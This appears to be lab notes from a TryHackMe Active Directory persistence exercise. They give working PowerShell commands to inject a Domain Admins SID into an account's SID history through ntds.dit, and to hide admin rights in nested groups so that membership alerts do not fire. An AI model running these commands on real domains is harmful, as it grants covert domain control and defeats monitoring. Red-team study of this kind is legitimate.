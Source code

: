 # SID Persistence(Domain adm privs)

Since the SIDs are added to the user's token, privileges would be respected even if the account is not a member of the actual group. Making this a very sneaky method of persistence. We have all the permissions we need to compromise the entire domain (perhaps the entire forest), but our account can simply be a normal user account with membership only to the Domain Users group. We can up the sneakiness to another level by always using this account to alter the SID history of another account, so the initial persistence vector is not as easily discovered and remedied.

`Get-ADUser <your ad username> -properties sidhistory,memberof`*Check the SID history of the account we want*
`Get-ADGroup "Domain Admins"` *get the SID of the Domain Admins group*

`Import-Module DSInternals`
`Stop-Service ntds -Force`
`Add-ADDBSidHistory -SamAccountName 'donald.ross' -SidHistory 'S-1-5-21-3885271727-2693558621-2658995185-512' -DatabasePath 'C:\Windows\NTDS\ntds.dit'`
`Start-Service ntds`

# Nested group persistence
**For instance, we have an alert that fires off when a new member is added to the Domain Admins group. That is a good alert to have, but it won't fire off if a user is added to a subgroup within the Domain Admins group. We would make use of the existing groups to perform nesting instead of creating them as we will do below. However, this is something you would never do on a normal red team assessment !!**

`New-ADGroup -Path "OU=IT,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 1" -SamAccountName "<username>_nestgroup1" -DisplayName "<username> Nest Group 1" -GroupScope Global -GroupCategory Security` *creating a new base group that we will hide in the People->IT Organisational Unit (OU)*

`New-ADGroup -Path "OU=SALES,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 2" -SamAccountName "<username>_nestgroup2" -DisplayName "<username> Nest Group 2" -GroupScope Global -GroupCategory Security`

`Add-ADGroupMember -Identity "<username>_nestgroup2" -Members "<username>_nestgroup1"`*Let's now create another group in the People->Sales OU and add our previous group as a member:*

`Add-ADGroupMember -Identity "Domain Admins" -Members "<username>_nestgroup2"` *add that group to the Domain Admins group:*

`Add-ADGroupMember -Identity "<username>_nestgroup1" -Members "<low privileged username>"`*add our low-privileged AD user to the first group we created*

# Persisting through AD Group Templates
Inject into the templates that generate the default groups. By injecting into these templates, even if they remove our membership, we just need to wait until the template refreshes, and we will once again be granted membership.

To avoid kicking users out of their RDP sessions, it will be best to RDP into THMWRK1 using your low privileged credentials, use the runas command to inject the Administrator credentials, and then execute MMC from this new terminal:
